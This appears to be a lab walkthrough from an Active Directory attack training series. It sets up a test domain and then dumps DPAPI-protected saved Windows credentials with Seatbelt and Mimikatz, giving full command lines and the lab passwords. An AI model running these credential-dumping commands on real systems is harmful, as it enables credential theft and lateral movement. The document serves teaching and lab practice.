 ```yaml
---
description: >-
  DPAPI stands for Data Protection API. Which is used by windows to securely
  save credentials.
---
```


# Dumping DPAPI

## Configuring

1. Login to `DC03` as the `Administrator` user with the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" management tool and open the "Users" directory. Right click the "Users" directory and click "New User"
3. Create a user with the name `sa_backup` and the password `LS6RV5o8T9`. Make sure you deselect "User must change password at next logon" and select "Password never expires".

![](<../../.gitbook/assets/image (67) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (62) (1) (1) (1) (1) (1).png>)

4\. Add the user to the "Account operator" and "Backup Operator" groups via the interface, memberof section or run the following command:

```
Add-ADGroupMember "Account Operators" -Members sa_backup
Add-ADGroupMember "Backup Operators" -Members sa_backup
Add-ADGroupMember "Server Operators" -Members sa_backup
```

5\. Login with the `sa_sql` user and the password `Iloveyou2` on `DATA01`.

6\. Click start and open the "Credential Manager".

![](<../../.gitbook/assets/image (64) (1) (1) (1) (1).png>)

7\. Click on the "Windows Credentials" tab and select "Add a Windows credential".

![](<../../.gitbook/assets/image (12) (1) (1) (1).png>)

8\. Fill in the following information:

* Internet or network address: `secure.local`
* User Name: `sa_backup`
* Password: `LS6RV5o8T9`

![](<../../.gitbook/assets/image (21) (1) (1).png>)

## Attacking

### How it works

When you have comprimised a system and if a user is currently logged in you can retrieve its DPAPI masterkey and decrypt the saved credentials. This is also possible if you have the password of a user. These saved credentials might give you access to other systems or higher privileges within the domain and can be used for lateral movement.

### Tools

* [Seatbelt](https://github.com/GhostPack/Seatbelt)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)

### Executing the attack

1. One of the things I like to do when gaining access to a system is running Seatbelt. This tool will check many things like permissions, groups and for stored credentials. The tool describes itself as:

> Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.

The tool is great for detecting DPAPI secrets.

2\. To run Seatbelt and do some of it checks we can run the following command:

```
.\Seatbelt.exe -group=user
```

3\. In the output of the section WindowsCredentialFiles we can see that the user `sa_sql` has some credentials saved:

![](<../../.gitbook/assets/image (18) (1) (1) (1) (1).png>)

4\. We can find the master encryption key id and some information about the saved credentials with the following Mimikatz command using the previous path and FileName:

```
./mimikatz.exe
dpapi::cred /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Credentials\02BF8752741C7A447536E822E53153CD
```

![](<../../.gitbook/assets/image (12) (1) (1).png>)

The `pbData` field contains the encrypted data and the `guidMasterKey` contains the GUID of the key needed to decrypt it.

{% hint style="info" %}
The latest compiled version of Mimikatz doesn't work on server 2022. Compiling the latest commit with Visual Studio 2019 gave me some errors, but this [https://github.com/matrix/mimikatz/tree/type\_cast-pointer\_truncation\_x64](https://github.com/matrix/mimikatz/tree/type\_cast-pointer\_truncation\_x64) repostorie/pull request worked for me without errors! I really hate compiling tools like this, always errors :cry:
{% endhint %}

5\. The next step is to retrieve the masterkey with the password of the user. Luckily we had its password from the previous pages were we captured the NTLMV2 hash after doing a UNC path injection through the SQL Service and cracked it. The password of the `sa_sql` user was `Iloveyou2`. With the following Mimikatz command we can retrieve the masterkey:

```
dpapi::masterkey /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Protect\S-1-5-21-1498997062-1091976085-892328878-1106\e1f462bb-9a65-40f0-a144-4f64bea97ce2 /sid:S-1-5-21-1498997062-1091976085-892328878-1106 /password:Iloveyou2 /protected
```

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

6\. We were able to retrieve the Masterkey, it it shown at the end of the output. Now we can read the saved credentials with the masterkey using the following Mimikatz command:

```
dpapi::cred /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Credentials\02BF8752741C7A447536E822E53153CD /masterkey:b3e8630e96acba990f836b4462a9285a4c987776f17f11b2559d9fdf67d03cf6b99dd89445d5641aef6f4477f7354eb6f19e3053e1d56712f45bc227249cdea2
```

![](<../../.gitbook/assets/image (2) (1) (1) (1).png>)

First we get the output of the first mimikatz command we ran, some information about the credentials. The output shows is the saved credential for the `sa_backup` user with the password `LS6RV5o8T9`.

7\. With the help of PowerView we can quickly check if this user has any value:

![](<../../.gitbook/assets/image (4).png>)

In PowerView we can see that `sa_backup` is member of the `Account Operators` en `Backup Operators` groups. These groups are interesting!

## Defending

### Recommendations

* Don't save RDP credentials in Windows.

### Detection



## References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords" %}

